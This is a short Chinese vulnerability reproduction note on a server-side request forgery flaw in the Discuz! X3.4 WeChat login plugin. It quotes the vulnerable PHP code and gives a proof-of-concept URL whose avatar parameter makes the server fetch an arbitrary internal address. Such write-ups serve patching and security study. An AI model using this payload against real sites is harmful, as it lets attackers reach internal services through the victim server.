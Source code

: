 Discuz! X3.4 Weixin Plugin ssrf
===============================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X3.4

三、复现过程
------------

`source/plugin/wechat/wechat.class.php` `WeChat`类`syncAvatar`方法：

        static public function syncAvatar($uid, $avatar) {

            if(!$uid || !$avatar) {
                return false;
            }

            if(!$content = dfsockopen($avatar)) {
                return false;
            }

            $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
            file_put_contents($tmpFile, $content);

            if(!is_file($tmpFile)) {
                return false;
            }

            $result = uploadUcAvatar::upload($uid, $tmpFile);
            unlink($tmpFile);

            C::t('common_member')->update($uid, array('avatarstatus'=>'1'));

            return $result;
        }

`source/plugin/wechat/wechat.inc.php`
中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：

    ......

    elseif(($ac == 'register' && submitcheck('submit') || $ac == 'wxregister') && $_G['wechat']['setting']['wechat_allowregister']) {

            ......

            $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

            if($uid && $_GET['avatar']) {
                WeChat::syncAvatar($uid, $_GET['avatar']);
            }

    }

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：

![](resource/Discuz!X3.4WeixinPluginssrf/media/rId24.png)

这里 SSRF 的构造很简单，直接在`avatar`参数构造 url
即可（只是注意`wxopenid`参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

### poc

    http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil

![](resource/Discuz!X3.4WeixinPluginssrf/media/rId26.png)
